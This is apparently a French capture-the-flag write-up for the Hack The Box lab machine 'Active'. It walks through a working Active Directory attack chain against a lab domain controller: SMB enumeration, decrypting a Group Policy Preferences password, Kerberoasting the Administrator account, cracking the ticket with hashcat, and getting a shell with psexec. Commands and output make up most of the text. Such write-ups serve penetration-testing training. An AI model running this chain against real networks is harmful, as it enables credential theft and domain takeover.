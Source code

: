 # Active - Easy

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-07 17:23 EST
Nmap scan report for 10.10.10.100                                                              
Host is up (0.028s latency).                                                                   
Not shown: 982 closed tcp ports (conn-refused)                                                 
PORT      STATE SERVICE       VERSION                                                                                                                                                         
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)   
| dns-nsid:              
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)              
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-02-07 16:23:38Z)   
135/tcp   open  msrpc         Microsoft Windows RPC                                                                                                                                           
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn                                    
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)                                                                     
445/tcp   open  microsoft-ds?                                                                  
464/tcp   open  kpasswd5?                                                                      
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped                                                                     
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)                                                                     
3269/tcp  open  tcpwrapped                                                                     
49152/tcp open  msrpc         Microsoft Windows RPC                                                                                                                                           
49153/tcp open  msrpc         Microsoft Windows RPC                                            
49154/tcp open  msrpc         Microsoft Windows RPC                                            
49155/tcp open  msrpc         Microsoft Windows RPC                                            
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0                              
49158/tcp open  msrpc         Microsoft Windows RPC                                            
49165/tcp open  msrpc         Microsoft Windows RPC                                            
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```

Il y a un LDAP donc on commence par un ldapsearch

```bash
ldapsearch -x -H ldap://10.10.10.100 -b "DC=active,DC=htb"
# extended LDIF
#
# LDAPv3
# base <DC=active,DC=htb> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C09075A, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v1db1

# numResponses: 1
```

Apparemment il faut se connecter avant

Le SMB ne passe pas pour lister les shares: 

```bash
crackmapexec smb 10.10.10.100 --shares
/usr/lib/python3/dist-packages/paramiko/transport.py:219: CryptographyDeprecationWarning: Blowfish has been deprecated
  "class": algorithms.Blowfish,
SMB         10.10.10.100    445    DC               [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.100    445    DC               [-] Error enumerating shares: SMB SessionError: STATUS_USER_SESSION_DELETED(The remote user session has been deleted.)
```

smbclient y parvient:

```bash
smbclient -L \\\\10.10.10.100
Password for [WORKGROUP\s1d1ou5]:
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Replication     Disk      
        SYSVOL          Disk      Logon server share 
        Users           Disk      
SMB1 disabled -- no workgroup available
```

On va donc explorer le dossier Replication;:

```bash
smbclient //10.10.10.100/Replication
Password for [WORKGROUP\s1d1ou5]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \>
```

En tatonnant on trouve un fichier intéressant:

```bash
smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\> get Groups.xml
```

Dans ce fichier on trouve le mdp de l’utilisateur active.htb\SVC_TGS (il faut le déchiffrer avec gpp-decrypt), on tente alors de se connecter avec evil-winrm. Cela échoue donc on essaye de refaire un smbclient en s’authentifiant.

```bash
smbclient \\\\10.10.10.100/Users -U active.htb/SVC_TGS
```

On a donc maintenant accès au dossier. On obtient le flag user. Vu qu’il n’y a rien d’autre d’intéressant il nous faut récupérer plus d’informations grâce à ce compte:

```bash
GetADUsers.py  active.htb/svc_tgs -all
Impacket v0.10.1.dev1+20230120.195338.34229464 - Copyright 2022 Fortra

Password:
[*] Querying active.htb for information about domain.
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ------------------------------  -------------------  -------------------
Administrator                                         2018-07-18 15:06:40.351723  2023-02-08 11:10:43.865331 
Guest                                                 <never>              <never>             
krbtgt                                                2018-07-18 14:50:36.972031  <never>             
SVC_TGS                                               2018-07-18 16:14:38.402764  2023-02-08 11:13:55.293267
```

Il nous faut également lister les permissions des users et on trouve cela:

```bash
sAMAccountName: Administrator
sAMAccountType: 805306368
servicePrincipalName: active/CIFS:445
```

SPN = kerberoast donc on va utiliser GetUserSPNs.py

```bash
GetUserSPNs.py active.htb/SVC_TGS -dc-ip 10.10.10.100

Impacket v0.10.1.dev1+20230120.195338.34229464 - Copyright 2022 Fortra

Password:
ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2023-02-08 11:10:43.865331
```

Puis:

```bash
GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs
```

Si une erreur apparaît (le temps est pas synchro avec l’AD):

```bash
sudo rdate -n 10.10.10.100
```

Et on obtient le ticket à déchiffrer

```bash
hashcat -m 13100 credentials.hash /usr/share/wordlists/rockyou.txt --force
```

On essaye de se log avec le mot de passe obtenu. On obtient le flag root.

```bash
psexec.py active.htb/Administrator@10.10.10.100
```